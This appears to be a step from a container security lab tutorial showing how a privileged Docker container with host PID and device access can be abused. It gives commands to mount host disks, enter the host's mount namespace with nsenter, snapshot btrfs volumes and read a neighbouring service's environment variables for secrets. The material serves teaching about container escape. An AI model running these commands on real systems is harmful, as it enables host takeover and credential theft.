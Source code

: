 ### Step 1: Atrocious Antelope
Let's first build our image:
```
cd ~/projects/container-lab
docker build -t mgm:0.0.1 --build-arg ARCH=$(uname -m) -f atrocious-antelope/Dockerfile .
docker run -it --rm --privileged --pid=host -p 3000:3000 --device=/dev/:/devbind/ mgm:0.0.1
```

Navigate to our really secure app:
[http://localhost:3000](http://localhost:3000)

You can now do naughty things.  You can check out the block devices with `lsblk` at this point.  Ruh roh!  You have a disk!

Go ahead and mount your disk: `mount /vdb1 /mnt`

If you're on orbstack, it's more complicated.  To give you a hint at how complicated it is, you can do the following:
`nsenter --mount=/proc/1/ns/mnt -- mount`
This will assume the mount namespace of PID 1 (on the host system), and list the mount devices.

You can do `cat /proc/self/mountinfo` to determine the overlayfs paths.  Notice all of the lowerdir paths?  Those are your layers for your container.  The merged overly should be at your `upperdir/../merged`.

If on btrfs, we can have fun with `btrfs`
```
apt-get btrfs-progs
btrfs subvolume snapshot /mnt /mnt/snappy
```

Get some information from neighbors:
```
# If you banking stack is running:
ps -ef | grep node
cat /proc/<nodePID>/environ
```
